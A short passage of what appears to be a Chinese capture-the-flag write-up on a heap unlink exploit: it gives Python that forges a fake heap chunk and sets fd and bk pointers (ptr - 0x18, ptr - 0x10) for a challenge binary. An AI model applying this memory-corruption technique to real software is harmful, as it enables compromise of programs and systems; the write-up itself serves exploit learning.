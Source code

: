 ```python
py = ''
py += p64(0) + p64(0x101) #从0x603010开始，presize设为真实的size - 0x10
py += p64(3)*30 #填充

py += p64(0x100) + p64(0x110)  #pre_inuse 设为0，presize设为0x100
```



下面往fake_chunk里面写fd指针的bk指针的值。

ida找到chunk的地址为0x602280，我们要合并的是3号块，地址是`0x602280 + 8*3`

![upload successful](/images/pasted-193.png)

```python
ptr = 0x602298
fd = ptr - 0x18
bk = ptr - 0x10
```



此时堆块已经伪造好了。


![upload successful](/images/pasted-194.png)
